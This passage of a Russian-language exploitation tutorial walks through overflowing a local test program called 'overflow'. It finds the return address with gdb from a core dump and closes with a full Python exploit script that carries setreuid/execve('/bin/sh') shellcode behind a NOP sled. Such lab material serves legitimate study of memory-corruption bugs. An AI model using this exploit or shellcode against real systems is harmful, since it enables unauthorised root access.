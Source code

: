 Далее я «уроню» нашу программу (на этот раз уже из терминала), с помощью Python передав на вход ту самую диагностическую строку c «мертвым кодом» в качестве адреса возврата.

```
$ ./overflow `python -c 'print "A"*132 + "\xd3\x4d\xc0\xd3"[::-1]'`
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAM
Ошибка сегментирования (сделан дамп памяти)
```

Согласно заданному шаблону имени дамп сохранился в директории /tmp. Запустим отладчик, указав путь до файла, содержащего дамп.

```
$ gdb ./overflow /tmp/core-overflow-11-1000-1000-8767-1568120200 -q
```

И проведем ровно те же самые манипуляции, которые я описал выше, когда мы в первый раз рассчитывали расположение шелл-кода. В моем случае, чтобы снова «прыгнуть» на середину NOP-среза, расположенного перед шелл-кодом, мне потребовалось изменить адрес возврата на `0xbfffee2c`.

Таким образом, у нас есть все для создания красивого скрипта для PWN'а рассматриваемой уязвимости.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit.py

import struct
from subprocess import call


def little_endian(num):
	"""Упаковка адреса в формат little-endian."""
	return struct.pack('<I', num)


junk     = 'A' * 35                   # мусор из символов "A"
nop_sled = '\x90' * 32                # NOP-срез
ret_addr = little_endian(0xbfffee2c)  # адрес возврата

# setreuid(0,0) + execve("/bin/sh", ["/bin/sh", NULL])
shellcode = '\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'

payload  = nop_sled
payload += shellcode
payload += nop_sled
payload += junk
payload += ret_addr

try:
	call(['./overflow', payload])  # выполнится в случае, если был импорт функции call (7-я строка)
except NameError:
	print payload  # выполнится в противном случае
```


[//]: # (2019-09-20)